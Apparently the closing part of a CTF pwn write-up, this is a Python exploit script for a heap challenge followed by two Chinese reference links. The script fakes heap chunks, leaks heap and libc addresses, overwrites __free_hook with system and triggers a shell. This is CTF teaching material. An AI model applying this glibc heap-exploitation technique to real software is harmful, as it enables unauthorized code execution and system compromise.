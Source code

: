 ```python
edit(3, 'a'*(0x18-12))
add(0x18)#4
add(0x4d8)#8
delete(4)
delete(5)
add(0x48)#4

delete(2)
add(0x4e8)#2
delete(2)

storage = 0x13370800
fake_chunk = storage - 0x20
payload = '\x00' * 0x10 + p64(0) + p64(0x4f1) + p64(0) + p64(fake_chunk)
edit(7, payload)
payload = '\x00' * 0x20 + p64(0) + p64(0x4e1) + p64(0) + p64(fake_chunk+8) + p64(0) + p64(fake_chunk-0x18-5)
edit(8, payload)

add(0x48) #0x133707e0
payload = p64(0)*4 + p64(0) + p64(0x13377331) + p64(storage)
edit(2, payload)

payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(fake_chunk+3) + p64(8)
edit(0, payload)

show(1)
r.recvuntil("]: ")
heap = u64(r.recv(6).ljust(8, '\x00'))
success("heap:"+hex(heap))

payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(heap+0x10) + p64(8)
edit(0, payload)

show(1)
r.recvuntil("]: ")
malloc_hook = u64(r.recv(6).ljust(8, '\x00')) -0x58 - 0x10
libc.address = malloc_hook - libc.sym['__malloc_hook']
free_hook = libc.sym['__free_hook']
system = libc.sym['system']
success("malloc_hook:"+hex(malloc_hook))

payload = p64(0)*2 + p64(0) + p64(0x13377331) + p64(storage) + p64(0x1000) + p64(free_hook) + p64(0x100) + p64(storage+0x50) + p64(8) + '/bin/sh\x00'
edit(0, payload)
edit(1, p64(system))
delete(2)

r.interactive()

```







参考文章

[https://www.anquanke.com/post/id/203096](https://www.anquanke.com/post/id/203096)

[https://blog.csdn.net/qq_38154820/article/details/107075631](https://blog.csdn.net/qq_38154820/article/details/107075631)